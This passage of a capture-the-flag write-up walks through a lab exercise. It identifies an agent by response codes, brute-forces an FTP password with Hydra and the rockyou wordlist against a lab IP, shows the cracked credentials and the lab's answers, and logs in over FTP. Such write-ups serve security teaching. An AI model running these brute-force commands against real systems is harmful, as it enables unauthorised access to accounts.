 > Starting the attack, and monitoring the different responses.

![](./screenshots/int-2.png)

> We see that `C` has a different response code, and a different size.
> Viewing the response, we see there is a redirection, following the redirection.

![](./screenshots/rep.png)

> We see that there is a weak password for agent `C`, and that the username is `chris`. 

###### What is the agent name? : `Chris` .

> Using Hydra to brute force passwors for the user `Chris` on `ftp`.
```
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.166.74
```

> After a while, we get a password that works, and the password, `crystal`.
```
DATA] attacking ftp://10.10.166.74:21/
[21][ftp] host: 10.10.166.74   login: chris   password: crystal
```

###### FTP password : `crystal` .

> Logging in via FTP.

```
ftp 10.10.166.74
```

> We are asked for a username and password, entering `chris` and `crystal` to login.
> Viewing the present files via `ls`.
